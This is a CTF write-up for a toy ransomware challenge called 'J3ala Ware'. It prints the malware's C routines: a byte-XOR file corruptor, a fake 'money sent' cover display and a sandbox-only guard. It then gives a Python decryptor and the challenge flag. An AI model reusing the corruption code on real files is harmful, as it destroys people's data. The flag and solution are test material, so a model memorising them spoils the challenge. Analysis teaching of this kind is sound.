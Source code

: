 #   J3ala Ware 483 - Malware Analysis Writeup

## Challenge Descritption


God I'm an idiot. This is the third malware I get tricked into executing it. I lost all of my really important documents. Can you please help me get them back? **(Note: Although this is a malware analysis task, this file is totally secure and indeed try executing it. Some antiviruses will maybe flag it as a malware, but, once again, its totally secure to execute it and analyse it.)**

---

## Provided Files

[j3ala.c](taskFiles/j3ala.c)

[victim files](taskFiles/victim_files)

[sandbox](taskFiles/sandbox)

---

## TL;DR

To summarize, this is a ransomware. The victim had his files encrypted and you're tasked to decrypt them. The flag will be in the [Super_Secret.png](taskFiles/victim_files/Super_Secret.png). As you can see, it's a corrupted file, you can read the encryption logic in the [source code](taskFiles/j3ala.c). For now, here's a [solver](solver/decrypt.py).

**Flag: Securinets{N4h_1_W0nt_P4y}**

---

## Initial Analysis

For this challenge, the players were given a zip file. Upon extraction, we're presented with a bunch of files. First, we see the [victim files](taskFiles/victim_files) directory which contains a bunch of corrupted pngs and a [HACKED.txt](taskFiles/victim_files/HACKED.txt) file that says `You're hacked! Send money to securinets Insat or forget about your silly cat files.`

Going over to the [sandbox folder](taskFiles/sandbox), we're presented with the [Malware executable](taskFiles/sandbox/freeVbucks.exe) and a test png file. Executing the malware will corrupt the file and leave a text like in the victim's directory.

We can easily deduce that this is a **rasomware**. A **ransomware** by definition is *a type of malware that permanently blocks access to the victim's personal data unless a "ransom" is paid.*

So now to the main task, which is reading the [source code of the malware](taskFiles/j3ala.c). Reading the functions' names, we can easily deduce that this malware performs some xor encryption based logic.

```c
void xor_encrypt(const char* filename) {
    FILE *file = fopen(filename, "rb+");
    if (!file) {
        perror("Failed to open file for encryption");
        return;
    }

    fseek(file, 0, SEEK_END);
    long filesize = ftell(file);
    rewind(file);

    if (filesize < 2) {
        fclose(file);
        return;
    }

    unsigned char* buffer = (unsigned char*)malloc(filesize);
    if (!buffer) {
        perror("Memory allocation failed");
        fclose(file);
        return;
    }

    fread(buffer, 1, filesize, file);

    for (long i = 0; i < filesize - 1; i++) {
        buffer[i] ^= buffer[i + 1];
    }

    rewind(file);
    fwrite(buffer, 1, filesize, file);
    fclose(file);
    free(buffer);
}
```

It also displays some fake activity as a cover while the malware executes its malicious payload.

```c
void fake_activity() {
    const char* fake_messages[] = {
        "Sending money to your bank account...",
        "+10000 credit points",
        "+99999$, Enjoy your Fortnite battle pass."
    };

    for (int i = 0; i < 4; i++) {
        printf("%s\n", fake_messages[i]);
        Sleep(2000);
    }
}
```
![Malware process](assets/malware.png)

In a nutshell, the xor_encrypt function reads a file, takes each byte and xors it with the next one. According to this logic, only the last byte will remain intact. Decrypting it will be as simple as starting from the last byte and using it to decrypt the one before it and so on.

Say a file with the bytes: `a b c d`. Once encrypted, it'll become `a^b b^c c^d d`.

So, the decrypting logic will be to decrypt the third byte with the d byte, we'll get back the c byte and use it to decrypt the second byte and get back b...

Writing a solver in python following this logic is quite simple

```py
import os

def xor_decrypt(input_filepath, output_filepath):
    try:
        with open(input_filepath, 'rb') as infile:
            filesize = os.path.getsize(input_filepath)
            
            buffer = bytearray(infile.read())

            for i in range(filesize - 2, -1, -1):
                buffer[i] ^= buffer[i + 1]

        with open(output_filepath, 'wb') as outfile:
            outfile.write(buffer)

        print(f"Decryption successful. Output written to {output_filepath}")

    except FileNotFoundError:
        print("Failed to open input file")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    input_filepath = input("Enter the path of the file to decrypt: ")
    output_filepath = input("Enter the path for the decrypted output file: ")

    xor_decrypt(input_filepath, output_filepath)

```

And now to the final step:

```bash
\ctf task\J3ala Ware> python solver\decrypt.py                                
Enter the path of the file to decrypt: .\taskFiles\victim_files\Super_Secret.png
Enter the path for the decrypted output file: decrypted.png
Decryption successful. Output written to decrypted.png
```

![Flag](assets/decrypted.png)

**Flag: Securinets{N4h_1_W0nt_P4y}**

### Note

If you're wondering about this function:

```c
int verify_directory() {
    char cwd[PATH_MAX];
    if (_getcwd(cwd, sizeof(cwd)) != NULL) {
        char* dirname = strrchr(cwd, '\\');
        if (dirname != NULL) {
            dirname++;
            if (strcmp(dirname, "sandbox") == 0) {
                return 1;
            }
        }
    } else {
        perror("Failed to get current working directory");
    }
    return 0;
}
```

**Its purpose is protecting you, the player, in case this malware was executed in a directory other than the sandbox. Please note that you're responsible for your own actions if you decide to remove that function and compile the malware.**